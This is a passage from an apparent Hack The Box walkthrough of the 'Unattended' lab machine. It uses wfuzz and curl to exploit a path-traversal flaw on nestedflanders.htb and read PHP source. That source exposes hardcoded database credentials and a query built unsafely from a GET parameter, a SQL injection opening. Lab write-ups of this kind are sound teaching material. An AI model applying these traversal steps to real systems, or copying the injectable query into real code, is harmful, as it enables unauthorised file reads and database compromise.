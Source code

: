 <a class="image-popup">
![3232ce4f.png](/assets/images/posts/unattended-htb-walkthrough/3232ce4f.png)
</a>

It's almost trivial to exploit it to read files.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 https://www.nestedflanders.htb/dev../FUZZ/index.html
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: https://www.nestedflanders.htb/dev../FUZZ/index.html
Total requests: 4593

==================================================================
ID      Response   Lines      Word         Chars          Payload    
==================================================================

001348:  C=200      1 L        9 W           42 Ch        "dev"
002018:  C=200    368 L      933 W        10701 Ch        "html"

Total time: 460.2616
Processed Requests: 4593
Filtered Requests: 4591
Requests/sec.: 9.979106
```

There are two paths to `index.html` and both `index.html` are different in length. Let's read `index.php` to verify the query structure.

```
# curl -k https://www.nestedflanders.htb/dev../html/index.php
```

```php
<?php
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;

include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
	global $debug;
	$valid_ids = array (25,465,587);
	if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
			$sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
	} else {
		$sql = "SELECT name FROM idname where id = '25'";
```

[1]: https://www.hackthebox.eu/home/machines/profile/184
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/